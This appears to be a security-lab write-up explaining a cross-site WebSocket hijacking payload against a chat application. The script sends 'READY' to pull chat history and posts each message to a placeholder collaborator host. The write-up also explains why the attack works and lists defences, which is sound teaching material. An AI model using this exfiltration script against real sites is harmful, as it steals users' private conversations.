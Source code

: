 ### **Explanation of the Payload:**

```javascript
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send('READY');
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-ID', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
</script>
```

### **Breaking it Down Step by Step:**

1. **Create a WebSocket Connection:**
    
    ```javascript
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ```
    
    - The `new WebSocket()` function creates a WebSocket connection to the chat server.
    - The `wss://` specifies a secure WebSocket connection (similar to `https://` but for WebSockets).

---

2. **Open the Connection and Send the Trigger Message:**
    
    ```javascript
    ws.onopen = function() {
        ws.send('READY');
    };
    ```
    
    - When the WebSocket connection is successfully established (`onopen` event triggered):
        - The script sends the message `'READY'`.
    - **Purpose:** The `READY` message is required to trigger the server into sending the chat history back to the client.

---

3. **Capture Incoming Messages:**
    
    ```javascript
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-ID', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
    ```
    
    - When a message (`event`) is received from the server:
        
        - The data received from the server (`event.data`) is captured and immediately sent to the attacker's external server using the `fetch()` API.
    - **Fetch Request Explanation:**
        
        - `method: 'POST'`: Sends the data as a POST request.
        - `mode: 'no-cors'`: Disables CORS restrictions so the request can be sent across origins without a preflight check.
        - `body: event.data`: The captured chat history or any other data received from the WebSocket server is sent as the body of the POST request.

---

### **What's Happening in the Attack:**

1. **Victim Loads the Malicious Page:**
    - The victim visits a malicious webpage (like an attacker-controlled site).
2. **WebSocket Connection Established:**
    - The script connects to the vulnerable WebSocket endpoint of the chat application.
3. **Triggering the Leak:**
    - The `READY` message is sent, triggering the server to send chat history data.
4. **Data Exfiltration:**
    - The captured data (chat history) is sent to an attacker's server (`YOUR-COLLABORATOR-ID`) for further inspection.

---

### **Why This Works:**

- **No CSRF Protection:** The WebSocket request is not validating the origin or using tokens to verify the request source.
- **SameSite=None Cookies:** Allows cross-origin requests and thus enables the attack.
- **Lack of WebSocket Origin Checking:** The server doesn't verify if the WebSocket request originated from a trusted site.

---

### **Defensive Measures (How to Prevent This):**

- **CSRF Protection:** Implement CSRF tokens in the WebSocket handshake.
- **Origin Check:** Ensure the server checks the `Origin` header during the WebSocket handshake.
- **SameSite Cookie Settings:** Avoid using `SameSite=None` unless necessary.